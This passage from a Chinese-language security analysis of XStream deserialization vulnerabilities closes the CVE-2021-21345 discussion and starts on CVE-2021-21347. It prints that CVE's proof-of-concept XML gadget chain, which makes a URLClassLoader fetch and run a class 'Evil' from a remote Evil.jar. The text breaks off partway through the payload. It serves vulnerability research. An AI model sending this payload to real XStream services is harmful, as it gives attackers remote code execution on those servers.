 由于调用栈和CVE-2021-21344基本一样所以就不再重复粘贴的，至此CVE-2021-21345分析完毕

3\. CVE-2021-21347
------------------

首先先看下POC

```
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='javafx.collections.ObservableList$1'/>
    </default>
    <int>3</int>
    <com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data>
      <dataHandler>
        <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
          <contentType>text/plain</contentType>
          <is class='java.io.SequenceInputStream'>
            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
              <iterator class='com.sun.tools.javac.processing.JavacProcessingEnvironment$NameProcessIterator'>
                <names class='java.util.AbstractList$Itr'>
                  <cursor>0</cursor>
                  <lastRet>-1</lastRet>
                  <expectedModCount>0</expectedModCount>
                  <outer-class class='java.util.Arrays$ArrayList'>
                    <a class='string-array'>
                      <string>Evil</string>
                    </a>
                  </outer-class>
                </names>
                <processorCL class='java.net.URLClassLoader'>
                  <ucp class='sun.misc.URLClassPath'>
                    <urls serialization='custom'>
                      <unserializable-parents/>
                      <vector>
                        <default>
                          <capacityIncrement>0</capacityIncrement>
                          <elementCount>1</elementCount>
                          <elementData>
                            <url>http://127.0.0.1:80/Evil.jar</url>
                          </elementData>
                        </default>
                      </vector>
                    </urls>
                    <path>
                      <url>http://127.0.0.1:80/Evil.jar</url>
                    </path>
                    <loaders/>
                    <lmap/>
                  </ucp>
                  <package2certs class='concurrent-hash-map'/>
                  <classes/>
                  <defaultDomain>
                    <classloader class='java.net.URLClassLoader' reference='../..'/>
                    <principals/>
                    <hasAllPerm>false</hasAllPerm>
                    <staticPermissions>false</staticPermissions>
                    <key>
                      <outer-class reference='../..'/>
                    </key>
                  </defaultDomain>
```